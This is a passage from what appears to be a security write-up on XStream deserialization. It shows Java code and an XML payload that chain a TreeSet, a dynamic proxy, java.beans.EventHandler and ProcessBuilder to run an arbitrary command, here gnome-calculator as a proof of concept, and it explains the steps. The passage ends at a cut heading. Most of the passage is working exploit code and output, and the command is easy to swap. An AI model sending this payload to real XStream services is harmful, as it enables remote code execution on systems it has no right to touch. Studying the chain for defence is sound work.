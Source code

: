 ```java
public final class String
    implements java.io.Serializable, Comparable<String>, CharSequence {
	
public final class Integer extends Number implements Comparable<Integer> {
```

The following code throws an exception before we reach the `toXML` method:

```java
Set<Comparable> set = new TreeSet<Comparable>();
set.add("foo");
set.add(EventHandler.create(Comparable.class, new ProcessBuilder("gnome-calculator"), "start"));
String payload = xstream.toXML(set);
System.out.println(payload);
```

```
Exception in thread "main" java.lang.ClassCastException: java.lang.UNIXProcess cannot be cast to java.lang.Integer
    at com.sun.proxy.$Proxy0.compareTo(Unknown Source)
    at java.util.TreeMap.put(TreeMap.java:568)
    at java.util.TreeSet.add(TreeSet.java:255)
    at src.incite.Test.main(Test.java:45)
```

However, it essentially it boils down to the following payload:

```xml
<sorted-set>
    <string>foo</string>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>gnome-calculator</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

1. A `TreeSet` gets instantiated
2. Its members get populated
3. The `TreeSet` will invoke `compareTo` method on every member
4. The second member is a dynamic proxy which is delegating all method invocation to an `EventTarget`
5. The `EventTarget` of type `ProcessBuilder` gets instantiated with its command field set to `gnome-calculator`
6. `EventHandler` will call the `start` method of `EventTarget`
7. `ProcessBuilder` runs the arbitrary command

## Anything other than Dynamic Proxy?
